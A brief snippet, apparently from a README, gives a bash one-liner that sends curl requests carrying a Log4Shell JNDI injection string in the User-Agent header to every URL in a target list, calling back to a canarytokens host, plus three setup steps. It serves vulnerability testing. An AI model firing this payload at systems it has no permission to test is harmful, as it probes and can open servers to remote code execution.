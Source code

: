 cat urls.txt  | while read url; do log4=$(curl -s -L $url -H User-Agent:"${jndi:ldap://REPLACE.canarytokens.com/a}");echo -e "$url -> User-Agent: SENT!";done

1) Create urls.txt  - populate with targets to test
2) Replace the REPLACE with your canary token ID or replace the entire UA(Useragent) "${jndi:ldap://REPLACE.canarytokens.com/a}"
3) execute/run script/command
